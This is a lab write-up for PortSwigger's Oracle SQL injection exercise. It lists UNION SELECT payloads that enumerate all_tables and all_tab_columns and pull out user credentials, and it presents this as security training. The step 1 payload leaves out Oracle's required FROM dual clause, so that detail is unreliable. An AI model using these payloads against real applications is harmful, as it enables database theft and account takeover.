 # SQL injection attack, listing the database contents on Oracle

![Lab banner – PortSwigger Practitioner level](1.png)

---

## Executive Summary

In the PortSwigger Web Security Academy lab *“SQL injection attack: listing the database contents on Oracle databases”*, we demonstrated how an attacker can enumerate Oracle database tables, their columns, and sensitive user credentials using a series of UNION SELECT queries against the `all_tables` and `all_tab_columns` system views. Because the application concatenates user input directly into SQL statements without sanitisation, we pivoted from initial UNION tests to full schema enumeration and credential harvesting.

---

# Descriprion

![Lab banner – PortSwigger Practitioner level](2.png)

---

## Why This Matters to You

* **Full data breach**: Oracle’s system views (`all_tables`, `all_tab_columns`) make schema enumeration straightforward once injection is possible.
* **Persistence risk**: Knowledge of table and column structures allows attackers to craft further malicious queries or establish backdoors.
* **Compliance violations**: Harvesting plaintext or weakly hashed credentials can trigger GDPR, CCPA, or equivalent reporting requirements.

---

## Step-by-Step Walk-Through

| # | What we did (payload URL-encoded where needed)                                                                                          | Intended SQL generated by the app                                                                                                 | What actually happens & why                                                     |
| - | --------------------------------------------------------------------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------- |
| 1 | Confirmed number and type of columns via UNION injection (2 columns, both strings).                                                     | `SELECT * FROM someTable WHERE category='X' UNION SELECT 'a','b'--`                                                               | Verified injection point and established query structure.                       |
| 2 | Enumerated tables with:<br>`' UNION SELECT table_name,NULL FROM all_tables--`                                                           | `SELECT * FROM someTable WHERE category='X' UNION SELECT table_name,NULL FROM all_tables--`                                       | Retrieved all table names. Identified `USERS_TOAEAL` as the target users table. |
| 3 | Enumerated columns for `USERS_TOAEAL` with:<br>`' UNION SELECT column_name,NULL FROM all_tab_columns WHERE table_name='USERS_TOAEAL'--` | `SELECT * FROM someTable WHERE category='X' UNION SELECT column_name,NULL FROM all_tab_columns WHERE table_name='USERS_TOAEAL'--` | Revealed sensitive columns `USERNAME_DINZLR` and `PASSWORD_BTNGGB`.             |
| 4 | Extracted credentials with:<br>`' UNION SELECT USERNAME_DINZLR,PASSWORD_BTNGGB FROM USERS_TOAEAL--`                                     | `SELECT * FROM someTable WHERE category='X' UNION SELECT USERNAME_DINZLR,PASSWORD_BTNGGB FROM USERS_TOAEAL--`                     | Retrieved full list of usernames and passwords.                                 |
| 5 | Logged in using harvested credentials.                                                                                                  | —                                                                                                                                 | Administrative access granted, lab solved.                                      |

---

## Observable Output

| Test / Payload                                                                           | Visible Result                                 | What it Proved                       |
| ---------------------------------------------------------------------------------------- | ---------------------------------------------- | ------------------------------------ |
| `' UNION SELECT 'a','b'--`                                                               | Page rendered with injected values             | Confirmed 2-column structure.        |
| `' UNION SELECT table_name,NULL FROM all_tables--`                                       | List of Oracle system + custom tables          | Schema enumeration successful.       |
| `' UNION SELECT column_name,NULL FROM all_tab_columns WHERE table_name='USERS_TOAEAL'--` | Displayed `USERNAME_DINZLR`, `PASSWORD_BTNGGB` | Sensitive column names identified.   |
| `' UNION SELECT USERNAME_DINZLR,PASSWORD_BTNGGB FROM USERS_TOAEAL--`                     | List of usernames and passwords                | Full credential disclosure achieved. |

---

## Conclusion

By leveraging UNION-based SQL injection against Oracle system views, we escalated from basic injection discovery to a full schema compromise, ultimately harvesting usernames and passwords. The lab highlights the risk of unsanitised SQL concatenation in Oracle environments.

